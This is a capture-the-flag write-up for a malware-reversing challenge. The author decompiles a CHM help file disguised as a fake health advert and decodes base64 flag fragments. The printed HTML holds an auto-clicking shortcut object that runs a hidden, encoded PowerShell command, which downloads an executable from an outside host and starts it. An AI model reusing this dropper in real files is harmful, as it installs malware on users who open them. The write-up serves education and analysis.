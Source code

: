 **UMDCTF{wh0_n33d5_k1net1c_w4rfar3_anyw4ys}**

### Doctors hate him!!

![](/image/chall7.png)

Based on the `Malware Chall Disclaimer` challenge, we can infer that this challenge is related to malware (perhaps reverse malware?). **little timmy** and i spent the whole night reversing the file that we suspected to be malicious, and the ending was truly unforgettable.

In this challenge, I received a `chm` file. According to my research, it is a Compiled HTML Help file. I tried opening it with Microsoft Help, but didn't find much... (except for a button that didn't do anything).

![](/image/chall7_1.png)

Based on this button, I think it might have originally been a web page...

I used the [HelpSmith](http://www.create-chm.com/chm-help-compiler/) tool and obtained the following zip file.

![](/image/chall7_2.png)

Yes, it does contain a real web page... now it's more accurate.

![](/image/chall7_3.png)

In the source code of the web page, there is a base64-encoded string: `VU1EQ1RGezE5OTdfY2FsbGVkXw==`.

![](/image/chall7_4.png)

--> `UMDCTF{1997_called_`

```php
<PARAM name="Item1" value=',cmd.exe,/c powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA'>
<body>
    <!--VU1EQ1RGezE5OTdfY2FsbGVkXw==--> 
    <OBJECT id=shortcut classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11"
        width=1 height=1>
        <PARAM name="Command" value="ShortCut">
        <PARAM name="Button" value="Bitmap::shortcut">
        <PARAM name="Item1" value=',cmd.exe,/c powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA'>
        <PARAM name="Item2" value="273,1,1">
    </OBJECT>
    <SCRIPT> shortcut.Click(); </SCRIPT>
    <div class="container">
        <div class="text"> <strong>
                <h1>DOCTORS HATE HIM!!</h1>
            </strong>
            <p>Do you suffer from low energy, fatigue, and a general lack of motivation? Did your Pokemon leave you for
                a better trainer? Rocket Corp's Master Ball Serum can help! Our all-natural formula boosts your energy
                levels and helps you feel like a young trainer ready to take on the world again!</p><button>Find out
                more!</button>
        </div>
```